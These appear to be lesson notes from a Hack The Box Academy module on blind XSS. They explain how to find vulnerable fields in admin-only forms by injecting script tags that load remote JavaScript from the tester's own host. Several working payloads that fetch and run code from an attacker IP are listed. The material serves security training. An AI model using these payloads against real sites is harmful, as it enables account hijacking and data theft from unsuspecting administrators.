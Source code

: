 Usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header
### Example Scenario
on (`/hijacking`) in the server at the end of this section. We see a User Registration page with multiple fields, so we submit a `test` user to see how the form handles the data.

We get the following response:
![Thank you for registering. An Admin will review your registration request.](https://academy.hackthebox.com/storage/modules/103/xss_blind_test_form_output.jpg)

This indicates that we will not see how our input will be handled or how it will look in the browser since it will appear only for the Admin.

In normal (i.e., non-blind) cases, we can test each field until we get an `alert` box, However, as we do not have access over the Admin panel in this case, how would we be able to detect an XSS vulnerability if we cannot see how the output is handled?

We can use the same trick we used in the previous section, which is to use a JavaScript payload that sends an HTTP request back to our server.
- If the JavaScript code gets executed, we will get a response on our machine = vulnerable page

However, this introduces two issues:
1. How can we know which specific field is vulnerable?
	- Since any of the fields may execute our code, we can't know which of them did.
2. How can we know what XSS payload to use?
	- Since the page may be vulnerable, but the payload may not work?
#### Loading a Remote Script
We can write JavaScript code within the `<script>` tag, but we can also include a remote script by providing its URL, as follows:
```html
<script src="http://OUR_IP/script.js"></script>
```
- We can use this to execute a remote JavaScript file that is served on our VM.

We can change the requested script name from `script.js` to the name of the field we are injecting in so when we get the request in our VM, we can identify the vulnerable input field that executed the script, as follows:
```html
<script src="http://OUR_IP/username"></script>
```
- If we get a request for `/username`, then we know that the `username` field is vulnerable to XSS, and so on.

With that, we can start testing various XSS payloads that load a remote script and see which of them sends us a request. The following are a few examples we can use from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):
```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://10.10.14.17\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```